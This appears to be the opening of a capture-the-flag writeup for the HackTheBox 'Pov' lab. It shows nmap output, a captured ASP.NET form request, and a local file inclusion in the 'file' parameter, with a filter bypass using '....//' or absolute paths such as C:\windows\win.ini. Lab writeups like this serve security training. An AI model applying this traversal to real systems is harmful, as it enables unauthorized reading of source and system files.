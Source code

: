 ```yaml
---
description: HackTheBox Pov Writeup (Medium)
---
```


# Pov Writeup

## Nmap

```
Nmap scan report for 10.10.11.251
Host is up, received user-set (0.014s latency).
Scanned at 2024-02-20 13:49:57 +08 for 155s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
```

### LFI

![pov1](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/pov1.png)

dev.pov.htb download CV button generate this request:

```
POST /portfolio/default.aspx HTTP/1.1
Host: dev.pov.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://dev.pov.htb
Connection: close
Referer: http://dev.pov.htb/portfolio/default.aspx
Upgrade-Insecure-Requests: 1

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=DAsrQy2PiX5KXtsNF4kDsu5N%2BdzCpkMawb5RGKK2jE9Ib1cqLXmSkDJFVuSLpnFGy42fvDQIQ%2BM4UNG84A9ADXmHZV8%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=GU%2F9W%2BTIKmqI67CcoIuM9cVEupmKIkWHSIH7STIYe2%2F98bqu8u2yf9qPKhgQ2okH9EAcOgB243e%2BaS4XYn3bwjWrnH4g3ByuUxIOSQER88Q%2F4FAoE9FtdJH0jmKFG1ipF84l2g%3D%3D&file=index.aspx.cs
```

![pov2](https://raw.githubusercontent.com/ngohuiann/CTF-Write-Ups/main/image/pov2.png)

The file parameter is vulnerable to LFI, read source code by inserting default.aspx. It is shown that "../" is being sanitized. But we can bypass this with "....//" or just specified the full path (eg. C:\windows\win.ini)
